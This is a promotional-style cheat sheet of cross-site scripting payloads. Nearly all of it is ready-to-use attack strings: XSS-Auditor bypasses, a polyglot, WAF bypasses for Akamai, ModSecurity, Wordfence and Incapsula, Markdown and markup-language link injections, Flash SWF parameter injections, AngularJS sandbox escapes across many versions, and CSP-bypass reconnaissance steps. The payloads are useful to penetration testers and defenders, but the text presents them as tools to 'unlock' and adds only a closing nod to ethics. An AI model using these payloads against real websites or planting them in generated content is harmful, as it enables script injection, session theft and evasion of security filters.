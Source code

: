# Defying Digital Dangers: The Art of XSS Exploitation

In the fast-paced realm of cybersecurity, where every click can hide a lurking danger, a new breed of tech-savvy guardians is rising. Armed with code and creativity, they venture into the uncharted territory of Cross-Site Scripting (XSS) vulnerabilities. Join us on this exciting journey through the art of XSS exploration.

**Chrome XSS-Auditor Bypasses: Crafting the Perfect Code**

Meet the masterminds of code manipulation. [@vivekchsm](https://twitter.com/vivekchsm) demonstrates a dazzling Chrome XSS-Auditor Bypass:

```html
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

But wait, there's more! Dive into the pre-v60 beta Chrome XSS-Auditor Bypass:

```html
<script src="data:,alert(1)%250A-->
```

For those who crave variety, try these other Chrome XSS-Auditor Bypasses:

```html
<script>alert(1)</script
```

```html
<script>alert(1)%0d%0a-->%09</script
```

```html
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

**Safari's XSS Vector: Where Art Meets Mischief**

[@mramydnei](https://twitter.com/mramydnei) unveils a mesmerizing Safari XSS Vector:

```html
<script>location.href;'javascript:alert%281%29'</script>
```

**XSS Polyglot: The Multilingual Mischief Maker**

[Ahmed Elsobky](https://github.com/0xSobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot) presents the XSS Polyglot, a true linguistic masterpiece:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

**Breaking Kona WAF (Akamai) Barriers: A Stroke of Genius**

Witness the brilliance of Kona WAF (Akamai) Bypass:

```html
\');confirm(1);//
```

**Mastering ModSecurity WAF Bypass: A Strategic Endeavor**

Bypassing ModSecurity WAF is an art that depends on the application's security level. A true artist knows the rules. [Learn more](https://modsecurity.org/rules.html).

```html
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

**Wordfence XSS Bypasses: A Symphony of Vulnerabilities**

Unlock the hidden potential of Wordfence XSS Bypasses:

```html
<meter onmouseover="alert(1)"
```

```html
'">><div><meter onmouseover="alert(1)"</div>"
```

```html
>><marquee loop=1 width=0 onfinish=alert(1)>
```

**Incapsula WAF Bypasses: A Choreography of Code**

[@i\_bo0om](https://twitter.com/i\_bo0om) orchestrates Incapsula WAF Bypasses:

```html
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
```

```html
<img/src=q onerror='new Function`al\ert\`1\``'>
```

**jQuery < 3.0.0 XSS: Unveiling Vulnerabilities**

[Egor Homakov](https://github.com/jquery/jquery/issues/2432) reveals the jQuery XSS with these captivating lines of code:

```js
$.get('http://sakurity.com/jqueryxss')
```

Unlock the full potential of this jQuery XSS by exploring cross-domain requests and trusted API endpoints.

**URL Verification Bypass: A Journey Beyond `&#x09;`**

Take your exploits to new heights with URL verification bypasses:

```
javas&#x09;cript://www.google.com/%0Aalert(1)
```

**Markdown XSS: A Subtle Intrusion**

Explore the art of Markdown XSS with these intriguing examples:

```md
[a](javascript:confirm(1))
```

```md
[a](javascript://www.google.com%0Aprompt(1))
```

```md
[a](javascript://%0d%0aconfirm(1))
```

```md
[a](javascript://%0d%0aconfirm(1);com)
```

```md
[a](javascript:window.onerror=confirm;throw%201)
```

```md
[a]: (javascript:prompt(1))
```

```md
[a]:(javascript:alert(1))           //Add SOH Character
```

**Flash SWF XSS: A World of Imagination**

```markdown
Delve into the enchanting realm of Flash SWF XSS, where creativity knows no bounds:
ZeroClipboard: ZeroClipboard.swf?id=\"))}catch(e){confirm(/XSS./.source);}//&width=500&height=500&.swf
plUpload Player: plupload.flash.swf?%#target%g=alert&uid%g=XSS&
plUpload MoxiePlayer: Moxie.swf?target%g=confirm&uid%g=XSS (also works with Moxie.cdn.swf and other variants)
FlashMediaElement: flashmediaelement.swf?jsinitfunctio%gn=alert1
videoJS: video-js.swf?readyFunction=confirm and video-js.swf?readyFunction=alert%28document.domain%2b'%20XSS'%29
YUI "io.swf": io.swf?yid=\"));}catch(e){alert(document.domain);}//
YUI "uploader.swf": uploader.swf?allowedDomain=\%22}%29%29%29}catch%28e%29{alert%28document.domain%29;}//<
Open Flash Chart: open-flash-chart.swf?get-data=(function(){alert(1)})()
AutoDemo: control.swf?onend=javascript:alert(1)//
Adobe FLV Progressive: /main.swf?baseurl=asfunction:getURL,javascript:alert(1)// and /FLVPlayer_Progressive.swf?skinName=asfunction:getURL,javascript:alert(1)//
Banner.swf (generic): banner.swf?clickTAG=javascript:alert(document.domain);//
JWPlayer (legacy): player.swf?playerready=alert(document.domain) and /player.swf?tracecall=alert(document.domain)
SWFUpload 2.2.0.1: `swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!confirm(1);//`
Uploadify (legacy): uploadify.swf?movieName=%22])}catch(e){if(!window.x){window.x=1;confirm(%27XSS%27)}}//&.swf
FlowPlayer 3.2.7: flowplayer-3.2.7.swf?config={"clip":{"url":"http://edge.flowplayer.org/bauhaus.mp4","linkUrl":"JavaScriPt:confirm(document.domain)"}}&.swf
```

_Note: For a comprehensive guide on constructing Flash-based XSS payloads, refer to_ [_MWR Labs_](https://labs.mwrinfosecurity.com/blog/popping-alert1-in-flash/)_._

**Lightweight Markup Languages: A World of Hidden Vulnerabilities**

Discover vulnerabilities lurking in lightweight markup languages:

**RubyDoc** (.rdoc)

```rdoc
XSS[JavaScript:alert(1)]
```

**Textile** ([.textile](https://txstyle.org/))

```textile
"Test link":javascript:alert(1)
```

**reStructuredText** ([.rst](http://docutils.sourceforge.net/docs/user/rst/quickref.html))

```rst
`Test link`__.

__ javascript:alert(document.domain)  
```

**Unleashing Unicode Characters: A Silent Intrusion**

Decode the hidden messages within Unicode characters:

```html
†‡•＜img src=a onerror=javascript:alert('test')>…‰€
```

**AngularJS Template Injection: The Art of Manipulation**

Navigate through the evolution of AngularJS Template Injection:

1.0.1 - 1.1.5 by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)

```js
{{constructor.constructor('alert(1)')()}}
```

1.2.0 - 1.2.1 by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

1.2.2 - 1.2.5 by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

1.2.6 - 1.2.18 by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

1.2.19 - 1.2.23 by [Mathias Karlsson](https://twitter.com/avlidienbrunn)

```js
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

1.2.24 - 1.2.29 by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

1.3.0 by [Gábor Molnár (Google)](https://twitter.com/molnar\_g)

```js
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```

1.3.1 - 1.3.2 by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
```

1.3.3 - 1.3.18 by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

1.3.19 by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}

```

1.3.20 by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

**Content Security Policy (CSP) Bypass: A Dance with Danger**

Unlock the secrets of bypassing CSP using JSONP endpoints. First, grab the target's CSP:

```
curl -I http://example.com | grep 'Content-Security-Policy'
```

Then, explore JSONP endpoints on whitelisted domains with a Google dork:

```
site:example.com inurl:callback
```

Embrace the world of XSS exploitation, where creativity and code converge to challenge the boundaries of digital security. Remember, with great power comes great responsibility. Stay ethical, stay safe, and continue to push the boundaries of cybersecurity.
